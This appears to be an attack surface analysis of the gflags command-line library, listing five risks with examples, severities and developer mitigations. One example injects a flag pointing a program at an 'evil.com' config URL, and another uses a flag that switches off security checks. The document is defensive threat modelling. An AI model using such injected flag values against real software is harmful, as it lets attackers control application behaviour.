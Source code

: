 # Attack Surface Analysis for gflags/gflags

## Attack Surface: [Command-Line Argument Injection](./attack_surfaces/command-line_argument_injection.md)

* **Description:** Attackers inject malicious or unexpected command-line arguments that are processed by `gflags`.
    * **How gflags Contributes:** `gflags` is the direct mechanism through which the application receives and parses command-line arguments. It defines the structure and expected input, making it the initial point of contact for potentially malicious input.
    * **Example:** `./my_app --config_path="https://evil.com/malicious.conf"` (if the application fetches the config based on this flag without proper validation).
    * **Impact:** Can lead to arbitrary actions within the application's context, such as loading malicious configurations, accessing unintended resources, or triggering vulnerabilities in subsequent processing.
    * **Risk Severity:** Critical
    * **Mitigation Strategies:**
        * **Developers:** Implement strict input validation and sanitization on flag values *immediately after* `gflags` parsing. Avoid directly using flag values in security-sensitive operations without thorough checks. Sanitize URLs, file paths, and other potentially dangerous inputs.

## Attack Surface: [Abuse of Boolean Flags for Logic Manipulation](./attack_surfaces/abuse_of_boolean_flags_for_logic_manipulation.md)

* **Description:** Attackers manipulate boolean flags, which are directly handled by `gflags`, to alter the application's intended behavior or bypass security checks.
    * **How gflags Contributes:** `gflags` provides the functionality to define and set boolean flags. The application's logic then relies on the state of these flags.
    * **Example:** `./my_app --allow_unsafe_operation` (if the application has a flag that disables security measures).
    * **Impact:** Can lead to the disabling of security features, enabling unintended functionality, or altering the application's workflow in a harmful way.
    * **Risk Severity:** High
    * **Mitigation Strategies:**
        * **Developers:** Avoid relying solely on boolean flags for critical security decisions. Implement proper authorization and authentication mechanisms that are not easily bypassed by manipulating flags. Carefully consider the default values of boolean flags and whether they should be easily modifiable by users.

## Attack Surface: [Denial of Service (DoS) through Resource Exhaustion](./attack_surfaces/denial_of_service__dos__through_resource_exhaustion.md)

* **Description:** Attackers provide a large number of flags or flags with extremely long values, overwhelming `gflags`'s parsing mechanism and consuming excessive resources.
    * **How gflags Contributes:** `gflags` is responsible for parsing and storing the provided flags. Processing a very large number of flags or extremely long flag values can consume significant CPU time and memory during the parsing phase.
    * **Example:** Launching the application with thousands of different flags or a single flag with a multi-megabyte string value.
    * **Impact:** Can make the application unresponsive or crash it before it even begins its intended functionality, preventing legitimate use.
    * **Risk Severity:** High
    * **Mitigation Strategies:**
        * **Developers:** Implement limits on the number of flags that can be provided and the maximum length of individual flag values. Consider the performance implications of parsing a large number of flags.

## Attack Surface: [Information Disclosure through Verbose Error Messages (During gflags Parsing)](./attack_surfaces/information_disclosure_through_verbose_error_messages__during_gflags_parsing_.md)

* **Description:** Error messages generated *during* the `gflags` parsing process reveal sensitive information about the application's expected flag formats or internal configuration.
    * **How gflags Contributes:** `gflags` generates error messages when it encounters issues parsing the command-line arguments. These messages, if not handled carefully, can leak information.
    * **Example:** An error message revealing the exact expected format of a configuration file path flag, hinting at internal directory structures.
    * **Impact:** Can aid attackers in understanding the application's inner workings and crafting more targeted attacks.
    * **Risk Severity:** High
    * **Mitigation Strategies:**
        * **Developers:** Implement custom error handling for `gflags` parsing failures. Avoid displaying overly detailed error messages to users. Log detailed errors securely for debugging purposes, but ensure these logs are not publicly accessible.

## Attack Surface: [Type Confusion Leading to Unexpected Behavior (During gflags Parsing)](./attack_surfaces/type_confusion_leading_to_unexpected_behavior__during_gflags_parsing_.md)

* **Description:** Providing input that, while seemingly valid to `gflags`'s basic type checking, leads to unexpected behavior due to how the application interprets the parsed value.
    * **How gflags Contributes:** `gflags` performs initial type checking, but the application's logic might make assumptions that are violated by specific input values that pass the initial check.
    * **Example:** Defining a flag as an integer, and `gflags` successfully parses a very large integer. However, the application later uses this integer in a calculation that overflows, leading to unexpected behavior.
    * **Impact:** Can cause application crashes, incorrect calculations, or unexpected state changes that could have security implications.
    * **Risk Severity:** High
    * **Mitigation Strategies:**
        * **Developers:** Implement robust validation of parsed flag values within the application logic, *beyond* the basic type checking performed by `gflags`. Enforce specific ranges or formats as needed. Handle potential edge cases and boundary conditions.

